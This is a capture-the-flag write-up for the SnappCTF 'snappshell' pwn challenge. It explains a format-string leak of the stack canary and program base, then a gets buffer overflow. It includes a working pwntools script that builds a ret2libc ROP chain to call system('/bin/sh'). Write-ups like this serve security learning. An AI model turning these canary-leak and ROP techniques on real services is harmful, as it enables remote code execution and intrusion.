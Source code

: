 ## Description

````
My [**shell**](https://snappctf.com/tasks/snappshell_fc8d87fc117c34914b7c1b1d1255e6305ae9a072.txz) is broken, can you fix it for me? No you can't = )

`nc 91.107.177.236 3117`
````
## Solution

There was 4 functionality in the program, one was exit, other one was cat which was disabled and there were two functionality which were useful for the exploitation, `echo` function that was vulnerable to format string and was used to leak the canary and address of `main` function and the base of program for gadgets that we might need, and the `find_index` function which  was vulnerable to overflow with `gets` function allowing us to jmp wherever we need.

After a long search for pop rdi gadget to leak the libc address to bypass ASLR, I was hopelessly searching writeups to figure what to do when I found https://ctftime.org/writeup/36368 which was the Idea and once more I opened r2 and found out that it is actually there with a `0x62050` difference to the libc base address, so used puts function to leak that and after that return again to main and after that using the pop rdi gadget inside libc to pop bin/sh string to the rdi and finally calling system function.

```python3
p=process('./snapp_shell')

# Leak canary
p.sendline('1')
p.recvuntil('input\n')
p.sendline('%7$p')
x=p.recvline()
can=p64(int(x,16))

# get main address
p.sendline('1')
p.recvuntil('input\n')
p.sendline('%15$p')
x=p.recvline()
main=int(x,16)

# Compute some useful addresses or just set to find their real address later
exe = main-0x0000140d
puts = exe+0x10e4
ret = exe+0x101a
diff = 0x62050
system = 0x50d70
binsh = 0x1d8678
pop_rdi = 0x2a3e5

# First step exploit
p.sendline('3')
pay=b'SNAPPaaaabaaacaaadaaaeaa'+can+b'aaaabaaa'+p64(ret)+p64(puts)+p64(ret)+p64(main)
p.sendline(pay)
p.recvuntil('input is')
p.recvline()
lc = p.recvline()
lcd = u64(lc[:-1]+b'\x00\x00')
libc = lcd - diff

# Second step exploit
p.sendline('3')
pay=b'SNAPPaaaabaaacaaadaaaeaa'+can+b'aaaabaaa'+p64(ret)+p64(libc+pop_rdi)+p64(libc+binsh)+p64(libc+system)
p.sendline(pay)
```

![IMG/Pasted image 20240225191817.png](./IMG/Pasted image 20240225191817.png)
